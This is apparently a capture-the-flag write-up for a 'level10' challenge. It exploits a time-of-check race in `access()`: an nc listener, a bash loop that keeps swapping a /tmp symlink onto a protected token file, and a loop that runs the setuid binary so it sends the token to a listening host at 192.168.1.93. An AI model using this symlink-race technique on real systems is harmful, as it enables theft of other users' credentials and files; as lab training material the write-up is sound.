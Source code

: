 Date: 9/21/2024

Entry:
In this challenge we had to exploit the `access()` function in order to send files not owned by us to the server.
In order to finish this exercise, we did the following steps:
1. `nc -lk 6969'—we o open a server listening on port 6969.
2. We wrote a script with an infinite while loop to constantly create and remove symbolic links to our `token`.
    ```#!/bin/bash

    while true; do
        touch /tmp/xyz
        rm /tmp/xyz
        ln -s /home/user/level10/token /tmp/xyz
        rm /tmp/xyz
    done```
3. We wrote a script with an infinite while loop to constantly execute program `level10` with the symbolic link created in the previous script.
    ```
    #!/bin/bash

    while true; do
        ./level10 /tmp/xyz 192.168.1.93
    done
    ```
4. By executing both scripts at the same time and checking the input on our server, the password for user `flag10` appeared, and then we just had to log in and execute the `getflag` command.